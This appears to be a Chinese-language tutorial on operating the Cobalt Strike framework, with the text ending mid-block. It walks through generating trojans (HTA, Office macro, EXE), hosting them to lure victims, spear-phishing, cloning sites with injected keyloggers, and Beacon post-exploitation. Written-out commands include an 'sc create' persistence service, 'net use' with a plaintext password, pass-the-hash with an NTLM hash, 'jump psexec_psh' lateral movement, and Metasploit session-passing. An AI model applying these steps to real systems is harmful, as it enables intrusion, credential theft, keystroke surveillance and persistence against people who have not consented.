


# CobaltStrike

>(site:"github.io" | site:"github.com" | site:"gitbook.io") ("Cobalt" + "Strike")
>
>https://wbglil.gitbook.io/cobalt-strike/
>
>https://github.com/aleenzz/Cobalt_Strike_wiki
>
>待补充

Cobalt Strike是一款由java编写的全平台多方协同渗透测试框架，在3.0版本之前它基于Metasploit框架工作，在3.0后的版本以独立成一个渗透测试平台。它分为客户端与服务端，**服务端只有一个并运行在linux中，客户端可以有多个，可被团队进行分布式协团操作**。本篇文章讲解的是4.0版本的使用。

Cobalt Strike集成了端口转发、扫描多模式端口Listener、socket代理、提权、钓鱼、远控木马Windows exe程序生成、Windows dll动态链接库生成、java程序生成、office宏代码生成，包括站点克隆获取浏览器的相关信息等功能。该工具几乎覆盖了APT攻击链中所需要用到的各个技术环节，且其最大的优点在于可以进行团队合作和优越的UI界面。

Cobalt Strike是一个c/s架构，他被分配作为客户端并连接到团队服务器。团队服务器是Cobalt Strike的一部分用来与目标环境做交互。


  >团队成员需要知道
	>>- 服务端的外部IP地址
	>>- 连接服务端的密码
	>>- 团队成员上线同一个服务端，会在团队成员内
	>>- 使用相同的会话
	>>- 分享靶机数据
	>>- 通过一个共享的事件日志交流

## CS的安装

服务器端不能安装在windows下。客户端windows，linux，macos都有。一个zip包，服务器客户端都解压就行。
* 系统要求
	 Cobalt Strike 服务器端要求 Oracle Java 1.8，Oracle Java 11, 或 OpenJDK 11，kali系统自带JAVA环境，也可自行删除重装JDK。
	 

打开文件目录


CobaltStrike一些主要文件功能如下：

```bash
agscript：扩展应用的脚本
c2lint：用于检查profile的错误和异常
teamserver：服务器端启动程序
cobaltstrike.jar：CobaltStrike核心程序
cobaltstrike.auth：用于客户端和服务器端认证的文件，客户端和服务端有一个一模一样的
cobaltstrike.store：秘钥证书存放文件	
```

一些目录作用如下： 

	data：用于保存当前TeamServer的一些数据
	download：用于存放在目标机器下载的数据
	logs：日志文件，包括Web日志、Beacon日志、截图日志、下载日志、键盘记录日志等
	third-party：第三方工具目录
	Scripts： 插件目录

### 启动团队服务器

Cobalt Strike 分为客户端组件和服务器组件。服务器组件，也就是团队服务器，是 Beacon payload 的控制器，也是 Cobalt Strike 社会工程功能的托管主机。团队服务器还存储由 Cobalt Strike 收集的数据，并管理日志记录。

Cobalt Strike 团队服务器必须在受支持的 Linux 系统上运行。要启动一个 Cobalt Strike 团队服务器，使用 Cobalt Strike Linux 安装包中的 teamserver 脚本文件。

`./teamserver  192.168.12.135 123456`

>#该ip地址为团队服务器IP，而后是连接服务器的密码
>注意：cs默认监听端口为50050，可以打开teamserver文件，修改端口。


当团队服务器启动，它会发布团队服务器的 SSL证书的 SHA256 hash。你需要给你的团队成员分发这个hash。当你的团队成员连接团队服务器时，在身份验证至团队服务器前、他们的Cobalt Strike 客户端会询问他们是否承认这个 hash 。这是抵御中间人攻击的重要保护措施。

### 客户端连接服务器

客户端可以在任意操作系统中运行，需要配置Jdk的环境。

```
./start.sh
```

>HOST 为服务器的IP地址
>PORT 为端口号 （默认即可）
>USER 为用户名 （默认即可）
>Password 为登录密码 （服务端密码）


	
按下 Connect 按钮来连接到 Cobalt Strike 的团队服务器。
如果这是你第一次连接此团队服务器，Cobalt Strike 会询问你是否承认这个团队服务器的 SHA256hash。如果你承认，那么按 OK，然后 Cobalt Strike 的客户端就会连接到这个团队服务器。Cobalt Strike 也会在未来的连接中记住这个 SHA256 hash。你可以通过 Cobalt Strike→ Preferences → Fingerprints 来管理这些团队服务器的 hash。


	

## 界面

>Cobalt Strike 用户接口分为两部分。接口的顶部是会话或目标的视觉化展示。
>
>接口的底部展示了每个你与之交互的 Cobalt Strike 功能或会话的标签页。你可以点击这两部分之间的区域、按你的喜好重新调整这两个区域的大小。

- Cobalt Strike 顶部的工具条提供访问 Cobalt Strike 常用功能的快捷方式。熟悉此工具条按钮会提升你使用 Cobalt Strike 的效率。

>CobaltStrike模块
>· New Connection：新建连接窗口
>· Preferences：偏好设置，设置CobaltStrike外观的
>· Visualization：将主机以不同的权限展示出来(主要以输出结果展示)
>· VPN Interfaces：设置VPN接口
>· Listeners：创建监听器
>· Script Interfaces：查看和加载CNA脚本
>· Close：关闭
>

> VIew模块
> · Applications：显示受害者主机的应用信息
> · Credentials：显示受害主机的凭证信息
> · Downloads：查看从受害主机上下载的文件
> · Event Log：主机上线记录以及团队协作聊天记录
> · Keystrokes：查看键盘记录
> · Proxy Pivots：查看代理模块
> · Screenshots：查看屏幕截图
> · Script Console：加载第三方脚本以增强功能
> · Targets：查看所有受害主机
> · Web Log：查看web日志
> 

>Attacks模块
> Packages：
> · HTML Application:生成(executable/VBA/powershell)这三种原理实现的恶意木马文件
> · MS Office Macro:生成office宏病毒文件
> · Payload Generator:生成各种语言版本的payload
> · Windows Executable:生成可执行exe木马
> · Windows Executable(S):生成无状态的可执行exe木马
> 
> 
>Web Drive-by:
>· Manage:对开启的web服务进行管理
>·Clone Site:克隆网站，记录受害者提交的数据
>· Host File: 提供文件下载，可以选择Mime类型
>· Scripted Web Delivery:为payload提供web服务以便下载和执行，类似于Metasploit的web_delivery
>· Signed Applet Attack:使用java自签名的程序进行钓鱼攻击(该方法已过时)
>· Smart Applet Attack: 自动检测java版本并进行攻击，针对Java 1.6.0_45以下以及Java 1.7.0_21以下版本(该方法已过时)
>· System Profiler:用来获取系统信息，如系统版本，Flash版本，浏览器版本等
>

>Reporting模块
>· Activity Report:活动报告
>· Hosts Report:主机报告
>· Indicators of Compromise:IOC报告：包括C2配置文件的流量分析、域名、IP和上传文件的MD5 hashes
>· Sessions Report:会话报告
>· Social Engineering Report:社会工程报告：包括鱼叉钓鱼邮件及点击记录
>· Tactics, Techniques, and Procedures:战术技术及相关程序报告：包括行动对应的每种战术的检测策略和缓解策略
>· Reset Data:重置数据
>· Export Data: 导出数据，导出.tsv文件格式
>

>Help模块
>· Homepage:官方主页 
>· Support:技术支持 
>· Arsenal:开发者 
>· System information:版本信息 
>· About:关于
>


**使用 Event log 进行聊天**

	View->Event Log
会显示连接团队服务器的成员，可进行聊天


## 创建监听器Listener
>监听器用来接受靶机传来的shell，也是cs的最重要的东西。
>
>Cobalt Strike的内置监听器为Beacon，在目标主机执行相关payload会向cs反弹一个shell；
>
>外置监听器为Foreign，使用cs派生一个MSF的shell回来就需要使用外部监听器。CobaltStrike的Beacon支持异步通信和交互式通信。


**建立监听**

1. Cobalt Strike → Listeners。这会打开一个标签页，列举出所有你的配置的 payload 和监听器。
2. 按 Add 按钮来创建一个新的监听器。

- > name：监听器名字
    > payload：payload类型
    > HTTP Hosts：shell反弹主机，是服务端IP
    > HTTP Host(Stager)：控制HTTP Beacon的HTTP Stager的主机，
    > HTTP Port(C2)：C2监听的端口


**有8种payload：**

- 

- 内部的Listener
    - **windows/beacon_dns/reverse_dns_txt：利用dns协议通信**
        - DNS beacon：利用DNS进行数据的通信，不过需要一个域名
        - 配置A记录指向服务器ip -->ns记录都指向A记录域名
    - windows/beacon_http     反向代理
    - windows/beacon_https   反向代理
    - windows/beacon_bind_tcp：     正向代理
    - windows/smb
- 外部的Listener ：将自己的会话派生给别人的，比如传递shell给msf
    - windows/foreign/reverse_http
    - windows/foreign/reverse_https
- External
    - windows/beacon_extc2   外置c2

Beacon可以选择通过DNS还是HTTP协议出口网络，你甚至可以在使用Beacon通讯过程中切换HTTP和DNS。

设置好beacon后，当我们生成木马时，会使用这个beacon生成木马，然后目标主机运行后就会连接我们的监听器了，而且我们可以在beacon中设置多个回连的主机列表，在设置不同监听IP，这样目标网络的防护团队必须拦截所有的列表中的主机才可中断和其网络的通讯。

## 创建Attacks：生成恶意代码到靶机上执行

### 生成后门
1. 利用Packages生成后门
2. 将后门传给靶机运行即可上线获得beacon。
#### 1. HTML Application

- 生成一个恶意HTML Application木马，后缀格式为 .hta。通过HTML调用其他语言的应用组件进行攻击，提供了exe可执行文件、PowerShell、VBA三种方法。
- 直接将HTML保存成HTA的格式，就是一个独立的应用软件，与VB、C++等程序语言所设计的软件界面没什么差别
- 生成后门：
    - Attacks -> Packages -> HTML Application
    - 监听器可以选择我们之前设置的beacon，或者直接再新设置一个beacon。
    - 
    - method好像只有powershell生成的后门能用。exe，vba执行了没有反应。
- 这样就会生成一个hta文件，然后我们把他放在我们自己的web网站上，引诱别人下载。
    - Attacks -> Web Drive-by  -> Host File
    - 

- 得到后门的链接，再在靶机中访问该链接并点击运行就会连接上我们的监听器了
    - 

#### 2. MS Office Macro（生成office宏病毒文件）

- Attacks -> Packages ->MS Office Macro

- 生成一个office的宏病毒，然后我们嵌入到正常的 Microsoft Word 或 Microsoft Excel 文件中，发送给用户。
    - 

- wps表格个人免费版是不提供Excel宏功能的，要使用excel宏功能就必须先安装vba插件（企业商业版），这样才能开启wps表格的宏功能。
    - 

- 将该文档发给其他人，只要他是用word打开，并且开启了宏，我们的CS就会收到弹回来的shell，进程名是rundll32.exe。

- word开启禁用宏：文件 —>选项 —>信任中心 —>信任中心设置 —>宏设置

    - 

#### 3. Payload Generator    生成各种语言版本的payload

- 可以生成基于C、C#、COM ，Scriptlet、Java、Perl、PowerShell、Python、Ruby、VBA等的payload

- powershell:

    - 会生成一个.ps1文件，需要在powershell上运行。`Import-Module .\payload.ps1或.\payload.ps1`
    - 或者在cmd下，运行`powershell Import-Module .\payload.ps1        或powershell .\payload.ps1`

- **PowerShell Command: 会直接生成cmd下的powershell命令**

    - 选择该payload会生成一个payload.txt文件，
    - 然后复制文件的内容，在靶机的shell上执行

- Windows Executable和Windows Executable(S) ：

    - 这两个模块直接用于生成可执行的 exe     文件或 dll 文件。Windows Executable是生成Stager类型的马，而Windows Executable(S)     是生成Stageless类型的马。那Stager和Stageless有啥区别呢？

    - Stager是分阶段传送Payload。分阶段啥意思呢？就是我们生成的Stager马其实是一个小程序，用于从服务器端下载我们真正的shellcode。分阶段在很多时候是很有必要的，因为很多场景对于能加载进内存并成功漏洞利用后执行的数据大小存在严格限制。所以这种时候，我们就不得不利用分阶段传送了。**如果不需要分阶段的话，可以在C2的扩展文件里面把 host_stage 选项设置为 false。**

    - 而Stageless是完整的木马，后续不需要再向服务器端请求shellcode。所以使用这种方法生成的木马会比Stager生成的木马体积要大。但是这种木马有助于避免反溯源，**因为如果开启了分阶段传送，任何人都能连接到你的C2服务器请求payload，并分析payload中的配置信息**。**在CobaltStrike4.0及以后的版本中，后渗透和横向移动绝大部分是使用的Stageless类型的木马。**

    - Windowss Executable(S)相比于Windows Executable，其中包含Beacon的完整payload，不需要阶段性的请求，该模块额外提供了代理设置，以便在较为苛刻的环境中进行渗透测试。该模块还支持powershell脚本，可用于将Stageless Payload注入内存。

    - 注意，**生成的Windows Service EXE生成的木马，直接双击是不会返回session的**。需要以创建服务的方式启动，才会返回session。

        - ```
            ® #注意，等号（=）后面要有空格
            sc create autoRunBackDoor binPath= "cmd.exe /c C:\users\administrator\desktop\cs.exe" start= auto DisplayName= autoRunBackDoor
            #开启某个系统服务
            sc start autoRunBackDoor
            #停止某个系统服务
            sc stop autoRunBackDoor
            # 删除某个系统服务
            sc delete service_name
            ```

###  钓鱼攻击

#### 1.Host File
- 对我们自己开启的web服务进行管理，Cobalt Strike 的 web 服务器可以让你放文件到自己的网站上，通过 Attacks → Web Drive-by→ Host File 来进行此配置。**选择要托管的文件，选择一个任意URL，然后选择文件的 MIME 类型。**
- 你可以在web服务管理里查看或结束CS所开启的web服务，web日志里则记录了web服务的请求日志（Ctrl+K清屏）

#### 2.克隆网站：

该模块用来克隆一个网站，来获取用户的键盘记录：

>Attacks → Web Drive-by → Clone Site
>网站克隆工具制作一个网站的本地的复制，使用一些增加的代码来修复连接和图像,这样它们可以工作。
>可以将一个攻击嵌入到一个克隆的站点。在绑定的字段写你的攻击的 URL，Cobalt Strike 会使用一个IFRAME 来将它加入一个克隆的站点。点击 ... 按钮来选择一个运行的客户端漏洞利用程序。

* Clone URL：克隆目标网站的URL
* 注意问题：URL需要添加http协议和端口（80）
* Local URL：本地克隆路径
* Local Host：本地主机IP
* Local Port：本地端口
* Attack：克隆后目标网站执行脚本，如：flash漏洞
*  Log keystrokes on cloned site:克隆站点上的键盘记录框。这会往克隆的站点里插入一段 JavaScript 键盘记录程序。要查看键盘记录内容或查看到你的克隆网站的访问者，通过 View → Web Log 。

 


#### Scripted Web Delivery(S)    

这个就是开启一个web服务托管payload，并根据选择的类型生成一个命令行来执行payload上线

#### Signed Applet Attack（废弃）

这后三个标注废弃的功能都是没啥用的，在现在一般情况下屌用没的

### Spear Phish 邮件钓鱼

>使用CS钓鱼需要四个步骤：
>1. 创建一个目标列表
>2. 创建一个钓鱼模版
>3. 选择通过哪个邮件服务器发送邮件
>4. 发送邮件


当你想使用钓鱼邮件来获得内网的一个跳板时，你需要注意以下几点：

1. 你发送的邮件是给具体的某个人看的，所以这封“钓鱼”邮件做的必须要跟真的一样，可能还需要加入一些诱惑性的语句来使对方交互。
2. 你必须要使邮件通过反病毒邮件网关
3. 绕过杀毒软件以及应用白名单

如果这些都能满足，那便可以成功执行，此外你还需要担心对方的防火墙以及网络安全监控。

**1.目标**
进入组织网络的最常见的方法是通过鱼叉式网络钓鱼。
在发送钓鱼信息之前，你应该收集目标列表。**Cobalt Strike 接受的格式是用文本文件组织的目标。该文件的每一行包含一个目标。目标可以是一个电子邮件地址**。你可以使用一个电子邮件地址、标签或一个名字。如果提供了名称，则有助于 Cobalt Strike 自定义每个网络钓鱼。
**2.模板**
接下来，你需要网络钓鱼模板。模板的好处是你可以在多次行动中重复利用它们。Cobalt Strike 使用保存的电子邮件消息作为其模板。Cobalt Strike 将删除附件、处理编码问题，并为每次钓鱼攻击重新填写每个模板。
**如果你想创建自定义模板，请撰写邮件并发送给自己。大多数电子邮件客户端提供获取原始信息源的方法**。
你可以 Cobalt Strike 的 token 自定义你的模板。Cobalt Strike 在你的模板里会自动替换如下一些 token ：


**3.发送消息**
现在你已经有了目标和模板，就可以开始进行网络钓鱼了。通过 **Attacks → Spear Phish** 来启动网络钓鱼工具。

*  Targets : 导入你的目标文件。
*  emplate: 选择一个模板文件。
*  Embed URL: 选择一个 Cobalt Strike 托管的工具。
*  Mail Server: 配置额外的服务器选项你也可以指定用于身份验证的用户名和密码。 Random Delay 选项告诉 Cobalt Strike 将每封邮件随机延迟一段时间，最多不超过你指定的秒数。如果此选项未设置，Cobalt Strike 不会延迟发送邮件。
*  Bounce To: 为退回邮件的应该发往的电子邮件地址。
*  Preview: 查看发送到你的收件人之一的一封组合邮件。
*  Send: 来发送你的攻击。


Cobalt Strike 通过团队服务器发送钓鱼邮件。


## Beacon控制台

> 使用插件了自动化执行命令，比如谢公子的插件

对被控主机的操作：后渗透，一个beacon相当于一个meterpreter。右键查看操作


### 运行命令

- Beacon 的 shell 命令会对 Beacon 创建任务来通过受害主机的 cmd.exe 来执行命令。当命令完成 时，Beacon 会将输出展示给你。 使用 run 命令来不使用 cmd.exe 执行命令， run 命令会将输出发送给你。 execute 命令会在后台运 行程序，但不捕获输出。

-  使用 powershell 命令来在受害主机上使用 PowerShell 来执行命令。使用 powerpick 命令不使用 powershell.exe 来执行 PowerShell cmdlet。这个命令依赖于由 Lee Christensen 开发的非托管PowerShell 技术。

-  powershell 和 powerpick 命令会使用你的当前令牌（ token ）。 psinject 命令会将非托管的 PowerShell 注入到一个特定的进程中并从此位置运行你的 cmdlet。

-  powershell-import 命令会将一个 PowerShell 脚本导入进 Beacon 中。如果用 powershell-import 导入脚本，接下来使用 powershell 、 powerpick 和 psinject 这三个命令都可以调用这个脚本中的 函数（cmdlet）。但是这个脚本导入命令一次仅能保留一个 PowerShell 脚本，再导入一个新脚本的时 候，上一个脚本就被覆盖了。可以通过导入一个空文件来清空 Beacon 中导入的脚本。

- execute-assembly 命令将一个本地的 .NET 可执行文件作为 Beacon 的后渗透任务来运行。你可以将 参数传递给此程序集，就像它是从一个 Windows 命令行接口运行一样。此命令也会继承你的当前令 牌。 如果你希望 Beacon 从一个特定的目录执行命令，在 Beacon 控制台中使用 cd 命令来切换 Beacon 进 程的工作目录。 pwd 命令将告诉你你当前在哪个目录中工作。 setenv 命令会设置一个环境变量。

- ```cmd
    常用命令
    Command                   Description
    -------                   -----------
    sleep                     设置睡眠延迟时间
    browserpivot              注入受害者浏览器进程
    bypassuac                 绕过UAC
    cancel                    取消正在进行的下载
    cd                        切换目录
    checkin                   强制让被控端回连一次
    clear                     清除beacon内部的任务队列
    connect                   Connect to a Beacon peerover TCP
    covertvpn                 部署Covert VPN客户端
    cp                        复制文件
    dcsync                    从DC中提取密码哈希
    desktop                   远程VNC
    dllinject                 反射DLL注入进程
    dllload                   使用LoadLibrary将DLL加载到进程中
    download                  下载文件
    downloads                 列出正在进行的文件下载
    drives                    列出目标盘符
    elevate                   尝试提权
    execute                   在目标上执行程序(无输出)
    execute-assembly          在目标上内存中执行本地.NET程序
    exit                      退出beacon
    getprivs                  Enable system privileges oncurrent token
    getsystem                 尝试获取SYSTEM权限
    getuid                    获取用户ID
    hashdump                  转储密码哈希值
    help                      帮助
    inject                    在特定进程中生成会话
    jobkill                   杀死一个后台任务
    jobs                      列出后台任务
    kerberos_ccache_use       从ccache文件中导入票据应用于此会话
    kerberos_ticket_purge     清除当前会话的票据
    kerberos_ticket_use       从ticket文件中导入票据应用于此会话
    keylogger                 键盘记录
    kill                      结束进程
    link                      Connect to a Beacon peerover a named pipe
    logonpasswords            使用mimikatz转储凭据和哈希值
    ls                        列出文件
    make_token                创建令牌以传递凭据
    mimikatz                  运行mimikatz
    mkdir                     创建一个目录
    mode dns                  使用DNS A作为通信通道(仅限DNS beacon)
    mode dns-txt              使用DNS TXT作为通信通道(仅限D beacon)
    mode dns6                 使用DNS AAAA作为通信通道(仅限DNS beacon)
    mode http                 使用HTTP作为通信通道
    mv                        移动文件
    net                       net命令
    note                      备注      
    portscan                  进行端口扫描
    powerpick                 通过Unmanaged PowerShell执行命令
    powershell                通过powershell.exe执行命令
    powershell-import         导入powershell脚本
    ppid                      Set parent PID forspawned post-ex jobs
    ps                        显示进程列表
    psexec                    Use a service to spawn asession on a host
    psexec_psh                Use PowerShell to spawn asession on a host
    psinject                  在特定进程中执行PowerShell命令
    pth                       使用Mimikatz进行传递哈希
    pwd                       当前目录位置
    reg                       Query the registry
    rev2self                  恢复原始令牌
    rm                        删除文件或文件夹
    rportfwd                  端口转发
    run                       在目标上执行程序(返回输出)
    runas                     以另一个用户权限执行程序
    runasadmin                在高权限下执行程序
    runu                      Execute a program underanother PID
    screenshot                屏幕截图
    setenv                    设置环境变量
    shell                     cmd执行命令
    shinject                  将shellcode注入进程
    shspawn                   生成进程并将shellcode注入其中
    socks                     启动SOCKS4代理
    socks stop                停止SOCKS4
    spawn                     Spawn a session
    spawnas                   Spawn a session as anotheruser
    spawnto                  Set executable tospawn processes into
    spawnu                    Spawn a session underanother PID
    ssh                       使用ssh连接远程主机
    ssh-key                   使用密钥连接远程主机
    steal_token               从进程中窃取令牌
    timestomp                 将一个文件时间戳应用到另一个文件
    unlink                    Disconnect from parentBeacon
    upload                    上传文件
    wdigest                   使用mimikatz转储明文凭据
    winrm                     使用WinRM在主机上生成会话
    wmi                       使用WMI在主机上生成会话
    argue                     进程参数欺骗
    ```

### 备用父进程

使用 ppid [pid] 命令来为你的 Beacon 会话运行的程序分配一个备用父进程。这是一种使你的活动 与目标上的正常行为融合的方法。当前 Beacon 会话必须有调用备用父进程的权限并且最好是备用父进 程和你的 Beacon 存在相同的桌面会话中。输入单独一个不带任何参数的 ppid 命令，会让 Beacon 使 用其本身的进程作为父进程、不使用伪造的父进程。 runu 命令将使用另一个进程作为父进程来执行命令，这个命令将以其备用父进程的权限和桌面会话来 执行命令。当前的 Beacon 会话必须有到备用父进程的完整权限。 spawnu 命令会派生一个临时的进 程，作为一个特定进程的子进程，并将一个 Beacon payload stage 注入进此进程。 spawnto 的值控制 用哪一个程序来作为临时进程。

### 上传和下载文件

- 右键-》目标-》文件管理，返回靶机的文件管理

### **进程列表(注入进程，键盘监控)：**

- 右键被控主机——>Explore——>Process List   会显示靶机的进程列表

- **选中某个进程进程**，Kill为杀死该进程，Refresh为刷新该进程，Inject 则是把beacon注入进程，Log Keystrokes为键盘记录，Screenshot 为截图，Stea Token为窃取运行指定程序的用户令牌

- **Inject注入进程**

    - **选择靶机的一个进程比如explorer浏览器进程，这样我们的beacon就被插入到这个进程里面去了，然后返回一个会话。**
    - 这样只要用户没关闭浏览器，我们的会话就会一直存在了。

- 键盘记录：

    - 任意选择一个进程，点击**Log Keystrokes**，即可监听该主机的键盘记录，比如浏览器
    - 在对应的beacon的shell中我们就可以看到返回的键盘信息了。

- 屏幕截图：

- - 查看对应进程的屏幕截图
    - 输入screenshot可以截图当前屏幕全部内容。

- 具体注入哪一个程序其实都没关系，因为都会记录你所有的键盘记录。之所以推荐 Explorer.exe 主要是为了持久和稳定，比如你注入了 chrome.exe 那么目标把 chrome 关了就没有了，主要是要看被注入的这个程序是不是持久稳定，所以 explorer 是个好的选择。
- 请注意，多个键盘记录器可能相互冲突。对每个桌面会话只应使用一个键盘记录器。
- 要获取屏幕截图，使用 screenshot pid 来将截屏工具注入到一个 x86 的进程中。使用 screenshotpid x64 注入到一个 x64 进程中。同样的， Explorer.exe 是一个好的候选程序。screenshot 命令的变体将保存一个截图并退出。单独使用 screenshot 命令会将截屏工具注入到一个临时进程中。使用screenshot pid 架构 时间 来请求截屏工具运行指定的秒数并在每一次 Beacon 连接到团队服务器的时候报告一张屏幕截图。这是查看用户桌面的一种简便方法。
- 当 Beacon 接收到新的屏幕截图或者键盘记录时，它将向 Beacon 控制台发送一条消息。不过屏幕截图和键盘记录的具体内容无法通过 Beacon 控制台查看。要查看键盘记录的具体信息，通过 View →Keystrokes 来查看从你的所有 Beacon 会话中记录的键盘记录。要查看截屏的具体信息，通过 View→ Screenshots 来浏览从你的所有 Beacon 会话中获取的截屏。这两个对话框都会随着新信息的进入而更新，这些对话框使得一个操作员可以轻松的监视从所有 Beacon 会话中获取的键盘记录和截屏。

### 桌面控制

- 要与目标主机上的桌面交互，通过 **[beacon] → Explore → Desktop(VNC)** 。这会将一个 VNC 服务器转入当前进程的内存中并通过 Beacon 对连接建立隧道。
- 当 VNC 服务器准备就绪时，Cobalt Strike 会打开一个标签为 Desktop HOST@PID 的标签页。
- 桌面底部按钮作用：
- 


### 浏览器代理**：**

- 我们可以在本地浏览器上访问目标机器浏览器已经登录的网站，而不需要登录。只支持ie
- 选中目标，右键浏览器代理，然后选中IE浏览器的进程
    - 然后下面会有一个默认的代理服务端口
    - 


- 然后视图代理信息可以看到刚刚建立的浏览器代理。服务器监听64016端口，然后服务器在目标主机开设了一个端口。
- 然后再我们本机的浏览器代理设置TeamServer服务器的ip和64016端口即可，服务器会将流量转发到靶机上。
- **然后访问对应网站**

### **抓取hash和dump明文密码**：

这两项功能都需要管理员权限，如果权限不足，先提权。

- [msf抓取密码](onenote:metasploit.one#section-id={733527F8-846B-44ED-8D9C-078C2B969E5F}&end&base-path=https://d.docs.live.net/ad8ceb1c3ec7c2dd/OneNote/工具)

- 抓取密码哈希：右键被控主机——>Access——>Dump Hashes：或者在beacon内输入hashdump
- 利用mimikatz抓取明文密码：右键被控主机——>Access——>Run Mimikatz：或者在beacon输入**logonpasswords**
- **抓取完成之后，**点击凭证信息，就会显示我们抓取过的哈希或者明文

### **提权**：

- 右键被控主机——>Access——>Elevate

- 默认有两个个提权payload可以使用，分别是svc-exe、uac-token-duplication      。
  - 亲测Windows Server      2008R2 、Win7 及以下系统可用。Win10不可用 

- 加载其他提权脚本：github上自己找

- 提权成功会返回一个system用户的会话

## 内网渗透

- 利用靶机进行内网端口扫描：右键菜单就有功能
- **利用被控主机建立Socks4代理， cs这时候就相当于代理服务器。**
- [**生成黄金票据注入当前会话(Golden Ticket)**](onenote:https://d.docs.live.net/ad8ceb1c3ec7c2dd/OneNote/渗透/域渗透.one#票据传递攻击(Pass the Ticket,PtT)&section-id={B0A0B7EB-DB97-4DFD-83C4-6A3B5D1A7A01}&page-id={001C8483-4E9F-4276-9953-9F7ECA712E23}&end)**：域渗透** **，利用已知**Krbtgt用户hash，伪造任意一个用户。
- **凭证转换(Make Token)：已**获得了计算机的本地管理员或域管理员的账号密码。域用户管理员的账号都不要加域名前缀。比如这里god/administrator账号名称就是administrator
- **窃取令牌****:**在进程列表中，寻找以域管理员身份运行的进程，并选定进行steal     token，如果成功，则会返回域管权限的beacon，
- **哈希传递攻击和远程登陆**：

## 目标服务器不出外网怎么办：

- Beacon SMB的使用：知道了目标机器的管理员账号的明文密码或密码哈希。或者为域用户，域用户可以登陆任意非域控主机。

    - **SMB     Beacon使用命名管道与父级Beacon进行通讯**，当两个Beacons链接后，**子Beacon从父Beacon获取到任务并发送**。因为链接的Beacons使用Windows命名管道进行通信，**此流量封装在SMB协议中**，所以SMB     Beacon相对隐蔽，绕防火墙时可能发挥奇效。

    - 这张图很好的诠释了SMB beacon的工作流程。

        - 

    - SMB Beacon的使用条件：

        - 具有      SMB Beacon 的主机必须接受 445 端口上的连接
        - 只能链接由同一个      Cobalt Strike 实例管理的 Beacon
        - 利用这种beacon横移必须有目标主机的管理员组的权限或者说是拥有具有管理员组权限的凭据。

    - **SMB Beacon的使用场景：**

        - **我们知道了目标机器的管理员账号的明文密码或密码哈希。但是目标主机不出网，所以我们想利用SMB     Beacon正向连接让其上线。**
        - 还有一种使用场景是，在域环境中，我们已经得到一个域用户的账号密码。由于在域中，默认域用户可以登录除域控外的所有主机。所以我们可以**利用该域用户与其他主机先建立IPC连接，然后让其他主机进行SMB Beacon上线。**
        - 

    - 首先，建立一个SMB Beacon的监听：SMB_Beacon listener

        - **利用明文密码让其上线SMB Beacon***：

            - ```
                § 先建立一个IPC连接，然后连接：
                1. shell net use \\192.168.10.132 /u:administrator root
                2. jump psexec_psh 192.168.10.132 SMB_Beacon
                3. 取消连接  unlink 192.168.10.132
                4. 如果是域内
                1. shell net use \\192.168.10.132 /u:xie\administrator root
                2. jump psexec_psh 192.168.10.132 SMB_Beacon
                也有图形化界面
                ```

        - **利用密码哈希上线SMB Beacon****：

            - ```
                1. rev2self
                2. pth WIN2003\Administrator 329153f560eb329c0e1deea55e88a1e9
                3. jump psexec_psh 192.168.10.132 SMB_Beacon
                4. 取消连接
                unlink 192.168.10.132
                ```

- Beacon TCP：一台肉鸡，一台目标机器。

    - 我们通过msf内网横向渗透拿到权限（我们内网渗透显然也是正向连接），但是目标机器不出网，但是可以内网通信，我们现在想让其上线cs，思路是通过正向代理，通过肉鸡去正向连接靶机。

    - 生成一个监听端口的连接器，加入木马中，发送到目标机器（192.168.10.128），目标机器运行后就开启了这个端口

    - 比如监听42582端口
        - 然后生成木马，上传到靶机运行
        - 在目标机器的shell上执行netstate      -ano | findstr 42585 查询端口是否开启

    - 然后我们在另外一个内网的肉鸡（192.168.10.123）正向连接这个端口：

    - - connect 192.168.10.128

    - 1. 取消连接  unlink 192.168.10.128

- **Beacon 中继：**在肉鸡上建立一个监听器，然后让目标机器反向连接到我们的肉鸡上。

    - 

- 然后攻击的时候的监听器选择我们刚刚⽤被控主机建⽴的listen即可。
    - 

- 但是这样会导致的⼀个后果就是，只要第⼀个被控主机掉线，通过该主机中继打下的内⽹其他主机也都

## cs/msf/empire session传递

### msf -》 cs

- 只有meterpreter类型的session才能派⽣给CS

- ⾸先在CobaltStrike上设置一个listener

- ```
    use exploit/windows/local/payload_inject
    set payload windows/meterpreter/reverse_http 和cs监听器设置的要一样 可以使用不同协议
    set DisablePayloadHandler true #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
    set lhost xxxx #cobaltstrike监听的ip
    set lport 14444 #cobaltstrike监听的端口
    set session 1 #这里是获得的session的id
    exploit
    ```

### cs-》msf

- cs要有beacon shell

- 在msf上的操作

    - ```
        use exploit/multi/handler
        set payload windows/meterpreter/reverse_tcp
        set lhost 0.0.0.0
        set lport 44444
